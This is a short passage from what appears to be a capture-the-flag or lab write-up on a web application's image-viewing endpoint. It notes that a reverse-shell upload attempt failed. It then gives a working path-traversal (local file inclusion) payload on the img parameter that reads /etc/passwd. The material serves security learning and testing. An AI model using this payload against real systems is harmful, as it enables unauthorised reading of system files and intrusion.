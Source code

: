 - It will direct to ```/show_image``` with parameter ```img```

![](./IMG/2.png)
- Above part have 2 possible vulneraility
    1. Upload function to upload a reverse shell --> failed
    2. LFI on img parameter

- The second one will work 
- Intercept the ```show_image``` request 
- Using the folloing payload, it will response expected content(```/etc/passwd```)
```
/show_image?img=//..//..//..//..//..//..//etc//passwd
```
